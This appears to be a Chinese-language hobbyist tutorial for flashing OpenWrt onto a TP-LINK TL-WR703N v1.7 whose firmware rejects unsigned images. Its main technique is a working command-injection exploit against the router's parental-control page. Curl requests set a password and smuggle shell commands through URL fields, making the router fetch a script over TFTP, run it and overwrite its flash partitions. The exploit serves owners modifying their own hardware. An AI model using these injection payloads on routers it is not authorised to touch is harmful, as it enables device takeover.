 # TP-LINK TL-WR703N v1.7 openwrt flashing

TP-LINK TL-WR703N是一个小型的路由器，可以有线转WiFi，3G转WiFi，很多人拿它刷openwrt系统，然后可以在上面各种搞事。

### V1.7以前
通常刷openwrt的做法是，
- 下载一个openwrt [factory固件](http://downloads.openwrt.org/attitude_adjustment/12.09/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- 打开路由器，
- 笔记本连接路由器发出来的WiFi，比如：TP-LINK-90-1B-18
- 在浏览器输入192.168.1.1，选择左边“系统工具”-“软件升级”-“浏览”
- 找到刚刚下载的镜像bin文件，确定
- 然后就会自动把openwrt刷到板子里边了

### V1.7以后
然而！上面的方法只有在2012年12月以前生产的WR703N上（型号在FW build 121204以前的）才有用，在之后的板子上，选择完bin文件会提示“上传的文件与硬件版本不符”，导致无法从web管理界面刷写系统！具体来讲，如果你的型号（这个在路由器管理界面可以看到）跟我的一样是3.17.1 Build 140120 Rel.56593n，那么恭喜你中奖了，只能通过下面这种方式或者TTL硬件方式刷openwrt。

原因是，2012年12月之后的系统升级，对bin文件做了RSA签名校验，无法刷第三方的系统。

一番搜索之后发现有个[国外的牛人](https://pastebin.com/0wzMthfr)利用TP-LINK家长控制的漏洞，让路由板执行一些代码，成功刷写openwrt系统，这个方法的英文版也被放到了openwrt wr703n的官方wiki上，可以说是相当靠谱了，国内有人也整理了一个[中文版](https://boweihe.me/2015/11/02/wr703n-v1-7-%E7%A0%B4%E8%A7%A3openwrt%EF%BC%88%E6%8F%90%E7%A4%BA%E5%AF%86%E7%A0%81%E9%94%99%E8%AF%AF%E7%AD%89%E9%97%AE%E9%A2%98%E7%9A%84%E8%A7%A3%E5%86%B3%EF%BC%89/)，但有些步骤还是不够详细，于是我整理了一个完整的版出来，让大家少踩一些坑。windows的同学可以参考这个中文版，不过里边有些链接失效了，可以参考我这篇去找对应的工具。

### 搭建tftp服务器
因为我们会先把镜像下载并处理好放在一个ftp服务器上，所以需要另一台电脑扮演这个角色
- 以MacOS为例，MacOS是内置了tftp服务器的，不需要另外安装，
- 默认的ftp服务器会把将`/private/tftpboot`这个目录作为根目录
- 修改这个目录的权限

```shell
sudo chmod 777 /private/tftpboot
sudo chmod 777 /private/tftpboot/*
```

- 启动tftp服务

```shell
sudo launchctl load -F /System/Library/LaunchDaemons/tftp.plist
sudo launchctl start com.apple.tftpd
```

- 测试，在另一台电脑上，以Ubuntu为例，安装tftp客户端

```shell
cwh@cwh-Matrimax-PC:sudo apt-get install tftp
cwh@cwh-Matrimax-PC:~$ tftp
(to) 192.168.2.210
tftp> get aa
```

把Ubuntu和mac放在一个局域网里，mac的ip是192.168.2.210，在mac的`/private/tftpboot`目录下有一个名为aa的文件，执行`get aa`之后，会发现Ubuntu的home目录下多了一个aa文件，也就是文件传送成功了。

### 准备工具
- *Nix系统下curl，dd，都是自带的，不用下载，
- 下载busybox，这个是用来在wr703n上执行dd和reboot命令用的，默认的命令行执行不了

```shell
curl https://busybox.net/downloads/binaries/1.21.1/busybox-mips > busybox
```

链接有可能失效，可以谷歌搜索busybox binary download，下载mips版本的

- 下载openwrt固件并拆分成两份（因为wr703n的内存很小，可能传输的时候传不了整个文件）

```shell
curl https://downloads.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin -o openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```

- 将busybox, 拆开的固件i1, i2放到tftp服务器目录`/private/tfboot`下



### 编写Hack脚本
- 进入tftp服务器目录
- 新建文件aa（很随意的一个名字），里边内容为：

```shell
cd /tmp
tftp -gl i1 192.168.1.100
tftp -gl i2 192.168.1.100
tftp -gl busybox 192.168.1.100
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
reboot -f
```

解释一下每行代码

```shell
cd /tmp
tftp -gl i1 192.168.1.100 # 把i1从tftp服务器下载下来，这里的ip应该是，你的tftp服务器连接路由器之后，ifconfig看到的ip
tftp -gl i2 192.168.1.100 # 把i2从tftp服务器下载下来
tftp -gl busybox 192.168.1.100 # 把busybox从tftp服务器下载下来
chmod 755 busybox  # 修改busybox权限以执行命令
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync # 将i1写入磁盘分区
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync # 将i2写入磁盘分区
reboot -f # 重启，会启动openwrt
```
至此，你的tftp目录下应该有4个文件：i1, i2, aa, busybox，缺一不可

### Hack into TL-WR703N
这个方法是利用TPLINK家长控制漏洞，以curl的方式执行命令，让路由器从tftp服务器上下载脚本，执行命令，从而将openwrt固件写入路由器

> 【警告】以下步骤可能导致你的路由器变砖，请确认当前的路由器固件版本是3.17.1 Build 140120. 下述全过程请勿断开连接或是断开电源，本人不对产生的任何后果负责！另外，每一步都很重要，别忽略其中任何一步。一旦变砖，请用3.3V的串口线抢救

- 首先长按reboot按钮将路由器恢复出厂设置
- 将tftp服务器（这里是Mac）通过WiFi的方式连接到路由器，ifconfig记住自己的ip，我的是192.168.1.100
- 在tftp服务器上（连接到路由器的另外一台机器也行）执行

- 修改密码为admin42

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'
```

注意这里的192.168.1.1是路由器的ip地址, 这个步骤只会更改路由器家长控制的默认密码，刷完openwrt之后会恢复为openwrt的默认密码的

- 启用家长控制（利用漏洞）

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'
```

- 让路由器从tftp服务器下载并执行脚本

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
```

等待大约三分钟，路由器会重启进入openwrt系统，状态灯会闪烁一会儿

### 进入openwrt系统
后边可以参考这位大兄弟写的[教程](https://gist.github.com/ninehills/2627163#%E5%88%9D%E5%A7%8B%E9%85%8D%E7%BD%AE2)，挺详细的了
